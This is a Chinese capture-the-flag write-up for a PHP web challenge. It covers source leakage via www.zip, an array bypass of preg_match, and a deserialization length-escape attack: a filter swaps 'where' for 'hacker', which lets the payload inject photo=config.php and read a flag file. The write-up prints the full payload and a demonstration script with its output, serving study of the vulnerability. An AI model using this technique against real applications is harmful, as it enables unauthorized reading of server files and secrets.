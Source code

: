 考察知识点：

1.数组绕过preg_match()正则表达式

2.改变序列化字符串长度导致反序列化漏洞

3.www.zip源码泄露



# 1.ctf-scan扫描发现www.zip得到网站源码



# 2.代码审计

大体看了一下发现config.php中存在flag

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/DA455B9C267F41D29E0912E853592202clipboard.png)



# 3.seay扫描代码

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/4349AF923DCE4D04B15D41A9AC4449FEclipboard.png)



frofile.php可能存在文件读取漏洞可以得到config.php中的flag



# 4.我们只要能控制$peofile['photo']=config.php;即可读取到flag

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/A447E3866E904DA2B2BBE5EBADFFF61Cclipboard.png)



# 5.查看$peofile['photo']的值来自何方



```javascript
profile.php

$username = $_SESSION['username'];
$profile=$user->show_profile($username);
```



```javascript
class.php

public function show_profile($username) {
   $username = parent::filter($username);

   $where = "username = '$username'";
   $object = parent::select($this->table, $where);
   return $object->profile;
}
```



所以明白程序逻辑为：根据用户名从数据库中查取$peofile的值



# 6.查看数据库中的$profile如何赋值

```javascript
update.php

$profile['phone'] = $_POST['phone'];
$profile['email'] = $_POST['email'];
$profile['nickname'] = $_POST['nickname'];
$profile['photo'] = 'upload/' . md5($file['name']);

$user->update_profile($username, serialize($profile));
```



# 7.考虑sql注入更改数据库内容photo='config.php'

但是过滤很严格，无法sql注入

```javascript
class.php

public function filter($string) {
   $escape = array('\'', '\\\\');
   $escape = '/' . implode('|', $escape) . '/';
   $string = preg_replace($escape, '_', $string);

   $safe = array('select', 'insert', 'update', 'delete', 'where');
   $safe = '/' . implode('|', $safe) . '/i';
   return preg_replace($safe, 'hacker', $string);
}
```





# 8.继续考虑其他方法

发现updatae.php中有一个serialize



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/20C04B2A88054FF59427436AFF788C44clipboard.png)



frofile.php中有一个unserlize

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/F9E1FF9193104B31953386DD467DC146clipboard.png)



此时想到：.改变序列化字符串长度导致反序列化漏洞

只要能随意控制nickname的值，我们就可以利用该漏洞控制photo的值



改变序列化字符串长度导致反序列化漏洞简介：

当反序列化时，会自动忽略能正常序列化字符串后面的字符串

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/2AFF690A8CBC45E791E548102DBC6F10clipboard.png)

可以看到ser和ser3的值反序列化后的值是一样的。



# 9.改变序列化字符串长度导致反序列化漏洞在该网站的利用

9.1 自定义nickname的值，虽然nickname有限制但是可以采用数组绕过

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/0641482F4CEF4C7B948B106481EEA10Fclipboard.png)





9.2 发现filter能够将白名单中的值替换为hacker

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/2F3359C800E24819912ED15F98E5ABB5clipboard.png)



# 10. 所以构造payload:

```javascript
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere
where";}s:5:"photo";s:10:"config.php
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/3866BA486C584AE99E08214AE4DEF80Eclipboard.png)



访问profile.php即可得到flagconfig.php的base64编码

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/78DC838750E54029965F9E4841F00750clipboard.png)



# 11.关于payload的解释



```javascript
$nickname='wherewherewherewherewherewherewherewherewherewherewherewherewhere
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere
wherewherewhere";}s:5:"photo";s:10:"config.php';

$ser=serialize($nickname);

echo "ser: ".$ser;
echo "\n";

$ser1=str_replace("where","hacker",$ser);
echo "ser1: ".$ser1;
echo "\n";
var_dump(unserialize($ser1));


输出：
ser: s:186:"wherewherewherewherewherewherewherewherewherewherewherewherewher
ewherewherewherewherewherewherewherewherewherewherewherewherewherewhere
wherewherewherewhere";}s:5:"photo";s:10:"config.php";

ser1: s:186:"hackerhackerhackerhackerhackerhackerhackerhackerhackerhacke
rhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker
hackerhackerhackerhackerhackerhackerhackerhackerhacke
r";}s:5:"photo";s:10:"config.php";

H:\WWW\www\exp.php:28:
string(186) "hackerhackerhackerhackerhackerhackerhackerhackerhackerhacker
hackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhackerhacker
hackerhackerhackerhackerhackerhackerhackerhackerhacker"

可见有34个where替换为hacker序列化数据增加了34个字节的长度刚好把,
;}s:5:"photo";s:10:"config.php" 挤出了nickname的序列化数据而,
;}s:5:"photo";s:10:"config.php" 成为了下一个数据photo的序列化数据,
当反序列化时nickname=hacker....
而photo=config.php
此时读取到了flag

```



